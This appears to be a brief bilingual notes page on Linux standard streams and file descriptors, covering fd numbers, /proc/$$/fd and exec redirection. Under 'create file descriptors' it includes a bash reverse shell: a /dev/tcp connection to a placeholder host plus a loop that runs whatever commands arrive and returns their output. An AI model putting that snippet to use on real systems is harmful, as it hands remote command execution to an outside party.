 # 标准流

## Standard streams <a href="#firstheading" id="firstheading"></a>

in:0  out:1 error:2      redirect:            >&

list all open file descriptors:

```vbnet
ls -la /proc/$$/fd
```

\$$: PID of the current running shell.

create file descriptors

```
exec 5<>/dev/tcp/xx.xx.xx.xx/xxxx
```

```
cat <&5 | while read line; do $line 2>&5 >&5; done
```

```
exec 5<&0    创建5作为0的复制
exec 3<&-    删除3
```
